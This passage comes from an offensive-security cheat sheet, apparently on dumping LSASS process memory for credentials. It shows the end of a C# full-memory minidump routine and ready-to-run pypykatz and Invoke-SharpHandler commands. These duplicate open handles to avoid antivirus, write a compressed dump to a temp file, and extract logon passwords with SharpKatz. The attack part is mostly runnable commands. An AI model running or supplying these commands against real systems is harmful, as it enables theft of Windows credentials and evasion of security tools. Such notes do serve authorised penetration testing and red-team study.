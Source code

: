 ```csharp
                dumpFile.SafeFileHandle.DangerousGetHandle(),
                2, // MiniDumpWithFullMemory
                IntPtr.Zero,
                IntPtr.Zero,
                IntPtr.Zero);
        }
    }
}
```
{% endcode %}




## Reusing Open Handles

- [https://rastamouse.me/duplicating-handles-in-csharp/](https://rastamouse.me/duplicating-handles-in-csharp/)
- [https://rastamouse.me/dumping-lsass-with-duplicated-handles/](https://rastamouse.me/dumping-lsass-with-duplicated-handles/)



### pypykatz

* [https://skelsec.medium.com/duping-av-with-handles-537ef985eb03](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)

```
Cmd > .\pypykatz.exe live lsa --method handledup
```



### SharpHandler

* [https://github.com/jfmaes/SharpHandler](https://github.com/jfmaes/SharpHandler)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-SharpHandler.ps1)

Scan if there are dupeable handles to use:

```
PS > Invoke-SharpHandler -C "-s"
```

Write a gzip-compressed minidump to specified location:

```
PS > Invoke-SharpHandler -C "-w -c -l=C:\Windows\Temp\pony.dat"
```

Dump and parse with SharpKatz's `logonpasswords`:

```
PS > Invoke-SharpHandler -C "-d"
```
